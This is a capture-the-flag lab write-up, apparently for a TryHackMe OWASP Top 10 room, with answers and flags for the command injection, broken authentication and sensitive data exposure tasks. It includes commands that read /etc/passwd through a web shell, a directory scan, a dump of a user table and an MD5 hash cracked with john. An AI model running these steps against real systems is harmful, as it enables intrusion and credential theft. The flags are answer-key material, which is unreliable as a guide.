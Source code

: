 # SEVERITY #1 - Injection

## [Severity 1] Command Injection Practical

First, go to the link http://machine_ip/evilshell.php

Q: What strange text file is in the website root directory?
A: **drpepper.txt**
> Command: ls

Q: How many non-root/non-service/non-daemon users are there?
A: **0**
> Command: ls /home

Q: What user is this app running as?
A: **www-data**
> Command: whoami

Q: What is the user's shell set as?
A: **/usr/sbin/nologin**
> Command: cat /etc/passwd | grep www-data

Q: What version of Ubuntu is running?
A: **18.04.4**
> Command: cat /etc/*-release

Q: Print out the MOTD.  What favorite beverage is shown?
A: **Dr Pepper**

```
$ ls /etc/update-motd.d
00-header 10-help-text 50-landscape-sysinfo 50-motd-news 80-esm 80-livepatch 90-updates-available 91-release-upgrade 92-unattended-upgrades 95-hwe-eol 97-overlayroot 98-fsck-at-reboot 98-reboot-required 

$ cat /etc/update-motd.d/00-header
...
<checkout the last line>
...
``` 

# Severity 2 - Broken Authentication

## [Severity 2] Broken Authentication Practical

Q: What is the flag that you found in darren's account?
A: **fe86079416a21a3c99937fea8874b667**

Q: Now try to do the same trick and see if you can login as arthur.
A: --NO NEED--

Q: What is the flag that you found in arthur's account?
A: **d9ac0f7db4fda460ac3edeb75d75e16e**

# Severity 3 - Sensitive Data Exposure

## [Severity 3] Sensitive Data Exposure (Challenge)

Have a look around the webapp. The developer has left themselves a note indicating that there is sensitive data in a specific directory. 

Q: What is the name of the mentioned directory?
A: **/assets**

```
$ dirsearch -u http://10.10.183.217/
```

Q: Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
A: **webapp.db**

Q: Use the supporting material to access the sensitive data. What is the password hash of the admin user?
A: **6eea9b7ef19179a06954edd0f6c05ceb**


```
$sqlite3 webapp.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   

sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0

sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

sqlite> 

```


Crack the hash.

```
$ echo 6eea9b7ef19179a06954edd0f6c05ceb > admin_hash.txt

$ john --format=raw-md5 admin_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
qwertyuiop       (?)     
1g 0:00:00:00 DONE 2/3 (2024-10-30 22:08) 1.754g/s 4042p/s 4042c/s 4042C/s 1234qwer..karla
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

$john --show --format=raw-md5 admin_hash.txt
?:qwertyuiop

1 password hash cracked, 0 left
```

Q: What is the admin's plaintext password?
A: **qwertyuiop**

Q: Login as the admin. What is the flag?
A: **THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}**